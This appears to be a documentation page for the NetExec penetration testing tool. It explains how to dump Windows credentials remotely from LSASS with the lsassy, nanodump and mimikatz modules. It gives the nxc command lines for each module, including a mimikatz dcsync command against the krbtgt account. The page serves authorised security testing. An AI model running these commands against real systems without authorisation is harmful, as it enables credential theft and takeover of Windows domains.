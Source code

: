 # Dump LSASS

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

### Using Lsassy

Using the module Lsassy from [@pixis ](https://twitter.com/HackAndDo), you can dump the credentials remotely

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M lsassy
```

### Using nanodump

Using the module nanodump you can dump the credentials remotely

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M nanodump
```

### Using Mimikatz (deprecated)

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

Using the Mimikatz module, the powershell script `Invoke-Mimikatz.ps1` will be executed on the remote target

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M mimikatz
```

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M mimikatz -o COMMAND='"lsadump::dcsync /domain:domain.local /user:krbtgt"
```
